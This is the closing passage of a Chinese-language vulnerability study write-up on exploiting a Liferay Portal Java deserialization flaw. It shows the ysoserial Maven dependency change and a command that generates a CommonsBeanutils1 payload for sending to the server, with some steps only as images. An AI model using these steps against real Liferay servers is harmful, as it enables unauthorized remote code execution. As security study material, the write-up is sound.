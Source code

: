 利用上面的代码替换掉原来的cmd代码

[![](https://p3.ssl.qhimg.com/t01b9f53d78cd73a69a.png)](https://p3.ssl.qhimg.com/t01b9f53d78cd73a69a.png)

<a class="reference-link" name="%EF%BC%882%EF%BC%89%20%E6%B7%BB%E5%8A%A0%E4%BE%9D%E8%B5%96%E5%B9%B6%E7%BC%96%E8%AF%91"></a>**（2） 添加依赖并编译**

在使用ClassPool类将回显代码加入到反序列化链的时候，ysoserial会先将这段代码编译成字节码，因此在编译的过程中需要将portal-kernel.jar 添加到mvn的依赖包中，操作如下：

在ysoserial项目的pom.xml文件中添加com.liferay.portal.kernel

```
&lt;dependency&gt;
  &lt;groupId&gt;com.liferay.portal&lt;/groupId&gt;
  &lt;artifactId&gt;com.liferay.portal.kernel&lt;/artifactId&gt;
  &lt;version&gt;3.39.0&lt;/version&gt;
&lt;/dependency&gt;
```

[![](https://p3.ssl.qhimg.com/t01ba30c9851cbc03d4.png)](https://p3.ssl.qhimg.com/t01ba30c9851cbc03d4.png)

之后通过该指令生成反序列化paylaod ，将1.txt的二进制自负转换成十六进制之后再使用<br>
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 sss &gt; 1.txt

<a class="reference-link" name="4.%20%E5%8F%91%E9%80%81payload"></a>**4. 发送payload**

[![](https://p5.ssl.qhimg.com/t0142551e8a99acd5b9.png)](https://p5.ssl.qhimg.com/t0142551e8a99acd5b9.png)



## 总结

完整的学习去年liferay漏洞的触发和利用，特别是在反序列化回显利用方面学习到了很多，膜拜各位师傅们的操作，作为萌新的我只能慢慢理解其中的精髓，有机会分析关于JSON反序列化利用的相关知识以及关于反序列化回显的细节。



## 参考文章

[https://paper.seebug.org/1162/](https://paper.seebug.org/1162/)<br>[https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Liferay%20Portal%20CVE-2020-7961%20%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/](https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Liferay%20Portal%20CVE-2020-7961%20%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)<br>[https://zhuanlan.zhihu.com/p/114625962](https://zhuanlan.zhihu.com/p/114625962)
